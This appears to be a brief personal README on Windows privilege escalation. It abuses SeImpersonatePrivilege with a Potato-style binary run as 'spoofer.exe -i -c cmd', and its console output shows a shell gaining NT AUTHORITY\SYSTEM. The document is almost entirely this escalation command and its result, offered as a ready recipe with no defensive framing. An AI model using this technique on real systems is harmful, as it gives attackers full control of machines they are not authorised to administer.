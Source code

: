 ### how to exploit SeImpersonatePrivilege using a juicePotato binary
With potato we can easy use the followint command 
```
C:\Users\Public\Desktop>spoofer.exe -i -c cmd
```

```
C:\Users\Public\Desktop>spoofer.exe -i -c cmd
spoofer.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.                                                                                                                                                                                          

C:\Windows\system32>whoami
whoami
nt authority\system 
```

N/B: I have made this simple repostory specificary  for my own use, so i understand what is going on with everything if you wanna more details just google budy

# AND WERE DONE WITH JUICEPOTATO BINARY
